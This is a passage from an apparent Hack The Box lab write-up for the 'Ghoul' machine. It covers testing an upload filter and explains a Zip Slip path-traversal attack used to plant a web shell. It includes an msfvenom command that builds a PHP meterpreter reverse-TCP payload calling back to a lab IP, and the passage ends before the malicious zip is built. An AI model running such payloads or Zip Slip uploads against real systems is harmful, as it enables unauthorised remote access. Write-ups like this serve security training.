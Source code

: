 If I try to upload any other file type I get the following error message.

![](/assets/images/htb-writeup-ghoul/upload_jpg_nok.png)

The same checks are enforced for ZIP files, here's a successful upload for a ZIP file:

![](/assets/images/htb-writeup-ghoul/upload_jpg_ok.png)

And here's the error when uploading another file type:

![](/assets/images/htb-writeup-ghoul/upload_jpg_nok.png)

So it seems I can only upload ZIP and JPG files and I don't know where they are stored. I ran gobuster to try to find an upload folder or something on port 8080 but I didn't find anything.

### Getting a shell with Zip Slip

There's a well known arbitrary file overwrite vulnerability called Zip Slip that affects multiple projects, including Java. The gist of it is we can craft a malicious zip file  that when extracted will place the content to an arbitrary location of our choosing. Normally, using file traversal characters would be forbidden but the vulnerability here allow such characters to be processed by Java. In this case, we want to place a reverse shell payload somewhere on the webserver where we can access it and trigger it.

Details on the vulnerability can be found here: [https://github.com/snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)

To generate the zip files, I used the [https://github.com/ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) python tool:

```
# msfvenom -p php/meterpreter/reverse_tcp -o met.php LHOST=10.10.14.23 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1112 bytes
Saved as: met.php
```
